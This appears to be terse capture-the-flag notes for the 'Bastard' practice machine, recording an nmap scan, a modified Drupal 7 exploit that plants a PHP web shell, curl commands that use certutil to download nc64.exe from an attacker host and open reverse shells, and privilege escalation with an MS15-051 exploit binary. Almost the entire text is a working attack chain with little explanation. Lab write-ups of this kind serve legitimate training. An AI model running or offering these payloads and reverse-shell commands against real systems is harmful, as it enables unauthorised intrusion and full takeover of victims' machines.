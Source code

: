 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Bastard
# 14/4/2023
10.10.10.9

----------------------------------------------------
# nmap
----------------------------------------------------
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC

----------------------------------------------------
# exploitaion
---------------------------------------------------
port 80 runnning drupal 7
└─$ searchsploit -m php/webapps/41564.php
apt install php-curl

I’ll update the script:

$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'shub.php',
    'data' => '<?php system($_REQUEST["cmd"]); ?>'
];
=>php 41564.php
curl http://10.10.10.9/shub.php?cmd=whoami
curl http://10.10.10.9/shub.php?cmd=certutil -urlcache -split -f http://10.10.16.2/nc64.exe
curl http://10.10.10.9/shub.php?cmd=nc64.exe -e cmd 10.10.16.2 1234
got shell
---------------------------------------------------
# priv esc
---------------------------------------------------
10.10.10.9/shub.php?cmd=certutil -urlcache -split -f http://10.10.16.2/ms15-051x64.exe
ms15-051x64.exe whoami
└─$ rlwrap nc -lvnp 8081 
ms15-051x64.exe "whoami"
└─$ rlwrap nc -lvnp 8081 
ms15-051x64.exe "nc64.exe -e cmd 10.10.16.2 8081"